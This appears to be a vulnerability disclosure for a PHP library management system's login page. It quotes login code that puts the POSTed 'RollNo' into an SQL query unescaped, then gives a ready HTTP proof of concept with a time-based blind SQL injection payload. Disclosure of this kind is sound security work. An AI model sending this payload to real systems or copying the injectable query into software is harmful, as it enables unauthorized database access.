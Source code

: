 ### Vulnerability file address

`index.php` from line 106

```php
......
......
......
if(isset($_POST['signin']))
{$u=$_POST['RollNo'];
 $p=$_POST['Password'];
 $c=$_POST['Category'];

 $sql="select * from LMS.user where RollNo='$u'";

 $result = $conn->query($sql);
$row = $result->fetch_assoc();
$x=$row['Password'];
$y=$row['Type'];
......
......
......
```

The $u parameter is controllable, the parameter RollNo can be passed through post, and the $u is not protected from sql injection, resulting in sql injection

### POC

not exists any precondition

```http
POST /index.php HTTP/1.1
Host: www.lms.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 85
Origin: http://www.lms.net
Connection: close
Referer: http://www.lms.net/
Upgrade-Insecure-Requests: 1

RollNo=1' or if(ascii(user())=114,sleep(0.5),0)#&Password=1&signin=Sign+In&Category=1
```

### Attack results pictures

Blind sql injection succeed

![image-20220702173846087](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702173846.png)



Blind sql injection failed

![image-20220702173857417](https://xianyu123images.oss-cn-hangzhou.aliyuncs.com/20220702173857.png)
